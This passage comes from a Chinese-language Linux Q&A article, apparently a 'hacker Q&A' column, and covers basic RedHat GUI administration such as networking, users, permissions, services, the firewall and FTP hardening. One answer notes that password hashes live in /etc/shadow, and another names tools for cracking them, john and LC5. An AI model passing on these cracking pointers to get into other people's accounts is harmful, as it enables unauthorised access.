点击左下角红色帽子图标 -> “系统工具” -> “互联网配置向导”，在出现的“选择设备类型”菜单中选择“以太网连接”，然后选择网卡。通常系统会自动识别出网卡来。在“配置网络设置”菜单中，我们可以设置“静态设置的 IP 地址”，填入 IP 地址，例如 192.168.0.254，子网掩码为 255.255.255.0，网关通常为 192.168.0.1。当然，使用默认的自动获取 IP 地址也是完全可以的。

### 在 Windows 系统下可以使用“Print Screen Sys Rq”键来进行屏幕抓图，但是在 RedHat Linux 下，该如何进行屏幕抓图呀？

点击左下角红色帽子图标 -> “图形” -> “屏幕截图程序”，启动后，屏幕截图程序默认抓取的是当前整个屏幕（图7）。如果我们有许多图要抓取，可以点击右上方的“新建快照”，然后再用鼠标点选要抓取的图就可以了。最后点击“保存快照”，选择好要保存的路径及文件名，点“保存”就可以了，默认为 png 图片格式。

图7

### 如何修改 RedHat Linux 系统的屏幕分辨率和色深呢？

点击左下角红色帽子图标 -> “系统设置” -> “显示”，就会出现“显示设置”菜单了（图8）。

在这儿我们可以随意调整系统的屏幕分辨率、色彩深度以及显示器类型、水平及垂直刷新率、显卡类型等，当然这些调整都必须是在显示器支持范围内的才行。

图8

# 黑客问答一点通

### 在 RedHat Linux 下，如何调出一个类似于 cmd.exe 的 shell 命令窗口呢？

- 方法有两个：
- 点击左下角红色帽子图标 -> “系统工具” -> “终端”就可以了。
- 点击左下角红色帽子图标 -> “系统工具” -> “更多系统工具” -> “Konsole - 超级用户模式”就可以了。

### 如何查看当前登录进系统的用户？

我们在 shell 终端下，使用“w”命令可以查看当前登录进系统的所有用户及其状态（图9）。

### 如何在 Linux 系统中添加用户呀？

点击左下角红色帽子图标 -> “系统设置” -> “用户和组群”（图10），点击“添加用户”，出现“创建新用户”菜单，输入要添加的用户名、口令、登录 Shell，以及新用户的主目录及用户 ID 就可以了（图11）。添加组群的方法与这个类似。

### 如何修改文件或目录的权限呀？

右击选定的文件或目录，在弹出的菜单中选择“属性”，在属性菜单中选择“权限”就可以修改了（图12）。“读取项”对应着“r”，也就是读取权限；“写入项”对应着“w”，也就是写权限；“进入”对应着“x”，也就是执行权限。在菜单的下方可以看到该文件或目录的所有者，修改好后点“确定”就可以了。

图12  
图13

### RedHat Linux 的用户密码文件是存放在哪儿的呀？

早期的 Red Linux 的密码是存放在“/etc/passwd”文件中的。不过，现在的 RedHat Linux 系统中的真正密码是存放在“/etc/shadow”文件中的。不过，shadow 文件中保存的密码仍然是加过密的。

### 如何破解 RedHat Linux 中加过密的用户密码？

关于破解 UNIX/Linux 用户密码的工具有许多，目前常用的是 john、乱刀、LC5。

### 如何启动或停止 RedHat Linux 上的某个服务？

点击左下角红色帽子图标 -> “系统设置” -> “服务器设置” -> “服务”（图13），前边打上勾的为已经启动的服务。我们从右边的窗口中可以看到该服务的详细描述及运行状态。

### 如何简单地设置防火墙？

点击左下角红色帽子图标 -> “系统设置” -> “安全级别”，然后就可以设置相应的服务是否被允许访问了（图14）。

图14

### 我成功地开启了 SSH 及 Telnet 服务，为什么还是不能从别的电脑上登录呀？

如果你确定 SSH 及 Telnet 服务已经成功开启了，那么我想就应该是防火墙的原因了。点击左下角红色帽子图标 -> “系统设置” -> “安全级别”，在下方的“允许进入：”中选上 SSH 及 Telnet，确定后就可以成功远程登录了。

### 如何查看 RedHat Linux 系统的日志文件？

点击最左下角红色帽子图标 -> “系统工具” -> “系统日志”。在“系统日志”菜单中一共包括了“引导日志”、“Cron 日志”、“内核启动日志”、“Apache 存取日志”、“Apache 错误日志”、“邮件日志”、“MySQL 服务器日志”、“News 日志”、“RPM 软件包”、“安全日志”、“系统日志”、“XFree86 日志”等 12 个。

### RedHat Linux 下有哪些好用的扫描软件？

在 UNIX/Linux 系统下最常使用的安全检测（扫描）软件就是 nessus 了，另外还有常用的端口扫描程序 nmap。

### 如何将 Linux 系统做成一个 WEB 服务器？

首先需要安装 Apache 组件，如果没有安装的话，可以在“系统设置”->“添加/删除应用程序”中选择安装，在“服务器”一栏下的“万维网服务器”打上勾，点“更新”，系统就会要求我们放入相应的安装光盘进行自动添加安装了。安装好后，我们需要从“系统设置”->“服务器设置”->“服务”中启动“http”服务。最后还有一点，选择“系统设置”->“安全级别”，打开安全级别配置菜单，在“允许进入”中选中“WWW(HTTP)”就可以了。

### 如何将我的 RedHat Linux 变成一个 FTP 服务器？

大致的方法同上，先在“添加/删除应用程序”的“服务器”一栏下安装“FTP 服务器”，默认为 vs-ftp，然后是在“服务”中启动“vsftpd”服务，最后是在安全级别的“允许进入”中选中“FTP”就可以了。

### 如何让我的 RedHat Linux FTP 服务器不能匿名登录？

我们以 vs-ftp 为例：用文本编辑器打开 `/etc/vsftpd/vsftpd.conf` 文件，可以看到默认的“anonymous_enable=YES”这句，意思是允许匿名登录，我们将其改为“anonymous_enable=NO”就可以了。

另外，默认情况下，所有列在 `/etc/vsftpd.user_list` 文件中的用户帐号是被拒绝访问的。我们只需要将 ftp、anonymous 这两个帐号添加进去，也就可以防止 FTP 服务器的匿名登录了。`/etc/vsftpd.ftpusers` 文件也最好做同样的修改。